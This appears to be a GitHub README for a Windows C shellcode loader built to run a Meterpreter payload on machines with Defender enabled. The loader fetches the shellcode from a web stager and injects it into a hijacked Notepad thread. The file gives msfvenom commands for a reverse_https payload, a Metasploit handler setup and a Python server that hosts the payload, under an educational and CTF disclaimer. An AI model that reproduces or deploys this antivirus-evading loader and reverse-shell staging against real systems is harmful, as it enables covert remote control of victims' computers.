


# 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. The purpose of this porject is to have a Meterpreter payload execute with Defender on. This approach will bypass defender but some of the functionalilties in a Meterpreter payload will still be flagged. The purpose of this was to use this on harder Hack The Box machines that may have defender enabled. This spolution is a output of MALDEV Academy, it has been a great course and helped me build this up to this point. 

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fecthes the shell code at runtime and will avoid some common signtures by not storing the shell code on disk.
- I then create a suspended process "Notepad.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time then call back with a Meterpreter payload on a different port. Steps below are for setup


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for you local machine that is hosting metasploit
```

2. Open Metasploit


 ```bash
# in a different terminal setup metaploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# in the same directory as the paylaod and a differnt terminal as Metasploit run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like




### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for you kali machine. Make sure the port used is the one hosting the python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target


- A callback then a Meterpreter shell

